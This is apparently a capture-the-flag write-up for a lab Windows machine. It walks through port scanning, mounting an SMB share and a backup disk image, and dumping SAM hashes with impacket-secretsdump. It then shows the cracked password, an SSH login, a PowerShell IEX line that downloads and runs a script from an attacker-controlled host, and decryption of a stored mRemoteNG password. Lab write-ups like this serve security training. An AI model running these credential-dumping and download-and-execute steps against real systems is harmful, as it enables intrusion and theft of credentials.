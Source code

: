 ![image](https://user-images.githubusercontent.com/68326057/117133594-14d9a280-adc2-11eb-8de2-a7e5f562c1d3.png)

# NMAP

```bash

PORT      STATE SERVICE      VERSION

22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3bG3TRRwV6dlU1lPbviOW+3fBC7wab+KSQ0Gyhvf9Z1OxFh9v5e6GP4rt5Ss76ic1oAJPIDvQwGlKdeUEnjtEtQXB/78Ptw6IPPPPwF5dI1W4GvoGR4MV5Q6CPpJ6HLIJdvAcn3isTCZgoJT69xRK0ymPnqUqaB+/ptC4xvHmW9ptHdYjDOFLlwxg17e7Sy0CA67PW/nXu7+OKaIOx0lLn8QPEcyrYVCWAqVcUsgNNAjR4h1G7tYLVg3SGrbSmIcxlhSMexIFIVfR37LFlNIYc6Pa58lj2MSQLusIzRoQxaXO4YSp/dM1tk7CN2cKx1PTd9VVSDH+/Nq0HCXPiYh3
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Mau7cS9INLBOXVd4TXFX/02+0gYbMoFzIayeYeEOAcFQrAXa1nxhHjhfpHXWEj2u0Z/hfPBzOLBGi/ngFRUg=
|   256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB34X2ZgGpYNXYb+KLFENmf0P0iQ22Q0sjws2ATjFsiN

135/tcp   open  msrpc        Microsoft Windows RPC

139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn

445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds

5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found

49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

# SMB

![image](https://user-images.githubusercontent.com/68326057/117143063-08f3dd80-adce-11eb-9269-ebea3c9fc440.png)

![image](https://user-images.githubusercontent.com/68326057/117143108-14470900-adce-11eb-8e97-c3cfb1b5fa77.png)

```bash
cat note.txt 
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

## Mount 

1. Mount thesmb share as:-
```bash
sudo mount -t cifs //10.10.10.134/Backups /tmp/smb
And press Enter for password
```
![image](https://user-images.githubusercontent.com/68326057/117148290-ba494200-add3-11eb-8013-3f084b5b49d4.png)

```bash
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd  --inspector --ro -v /tmp/windows
```

--> all hashes are for users are stored in /windows/system32/config SAM and SYSTEM .

## Creds Dump
```
impacket-secretsdump -sam SAM -system SYSTEM local
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
                                                    ^
                                                  (31d6)This is call null or maybe there is no User
                                                  
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
                                               ^
                                               Same as above.

L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

```

![image](https://user-images.githubusercontent.com/68326057/117150157-853def00-add5-11eb-8d6f-06f07146125e.png)

```bash
L4mpje:bureaulampje
```


# ssh
```bash
ssh L4mpje@IP
```

![image](https://user-images.githubusercontent.com/68326057/117150402-c0402280-add5-11eb-95a1-2135ba10f7f1.png)

![image](https://user-images.githubusercontent.com/68326057/117150446-c930f400-add5-11eb-85ad-1f79e0fe08c7.png)


```powershell
powershell -ep bypass
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21:8000/jaws-enum.ps1') 
```

# mremoteng

--> https://github.com/haseebT/mRemoteNG-Decrypt.git

--> config file for users  are stored in APPDATA in /users (windows)

![image](https://user-images.githubusercontent.com/68326057/117155357-56764780-adda-11eb-8856-bc7c5ad838e6.png)

![image](https://user-images.githubusercontent.com/68326057/117155797-b66cee00-adda-11eb-9a3b-5780a68ec831.png)


```bash
python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
```

![image](https://user-images.githubusercontent.com/68326057/117156092-f7fd9900-adda-11eb-8045-d1a1bcaf2557.png)

